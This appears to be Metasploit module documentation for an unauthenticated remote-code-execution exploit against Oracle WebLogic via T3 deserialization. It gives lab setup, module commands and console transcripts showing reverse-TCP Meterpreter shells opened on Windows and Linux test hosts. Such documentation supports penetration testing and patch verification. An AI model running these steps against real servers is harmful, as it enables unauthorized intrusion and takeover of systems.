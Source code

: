 ## Vulnerable Application

  There exists an object deserialization vulnerability
  in multiple versions of WebLogic.

  Unauthenticated remote code execution can be achieved
  by sending a serialized BadAttributeValueExpException object
  over T3 to vulnerable WebLogic servers.

  This module has been tested against versions `v12.1.3.0.0`,
  `v12.2.1.3.0`, and `v12.2.1.4.0`.

  WebLogic versions can be downloaded from [here](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html).
  
### Installation

  Installation instructions can be found [here](https://docs.oracle.com/cd/E24705_01/doc.91/e21052/appx_install_wls.htm#EOPWC376).
  
  On step 10 of the installation instructions keep the
  `Run Quickstart` box checked and click `done`. A new window
  should pop up. Select `Create a new domain` -> `next`.
  Ensure `Basic WebLogic Server Domain` is selected and click `next`.
  Create credentials and select `next`. Domain mode can be either
  `Production` or `Development`, click `next`. Click `next` again
  and select `Create`. Click `next` a couple more times, then click
  `finish`.

  To start WebLogic, execute either the `startWebLogic` script in
  `Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain/`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/misc/weblogic_deserialize_badattrval```
  4. Do: ```set RHOSTS <ip>```
  5. Do: ```run```
  6. You should get a meterpreter session.

## Scenarios
### WebLogic `v12.2.1.4` on Windows 10

  ```
  msf5 > use exploit/multi/misc/weblogic_deserialize_badattrval
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.185
  rhosts => 172.16.215.185
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.185:7001 - WebLogic version detected: 12.2.1.4.0
  [*] 172.16.215.185:7001 - Sending handshake...
  [*] 172.16.215.185:7001 - Formatting payload...
  [*] 172.16.215.185:7001 - Sending object...
  [*] Sending stage (176195 bytes) to 172.16.215.185
  [*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.185:50795) at 2020-05-15 09:37:45 -0500

  meterpreter > getuid
  Server username: DESKTOP-AQT4EG1\space
  meterpreter > sysinfo
  Computer        : DESKTOP-AQT4EG1
  OS              : Windows 10 (10.0 Build 18362).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 4
  Meterpreter     : x86/windows
  ```

### WebLogic `v12.1.3.0.0` on Linux
  
  ```
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set target 1
  target => 1
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.196
  rhosts => 172.16.215.196
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444 
  [*] 172.16.215.196:7001 - WebLogic version detected: 12.1.3.0.0
  [*] 172.16.215.196:7001 - Sending handshake...
  [*] 172.16.215.196:7001 - Formatting payload...
  [*] 172.16.215.196:7001 - Sending object...
  [*] Sending stage (3012516 bytes) to 172.16.215.196
  [*] Meterpreter session 6 opened (172.16.215.1:4444 -> 172.16.215.196:60672) at 2020-05-15 09:41:17 -0500
  [*] 172.16.215.196:7001 - Command Stager progress - 101.36% done (820/809 bytes)

  meterpreter > getuid
  Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > sysinfo
  Computer     : 172.16.215.196
  OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
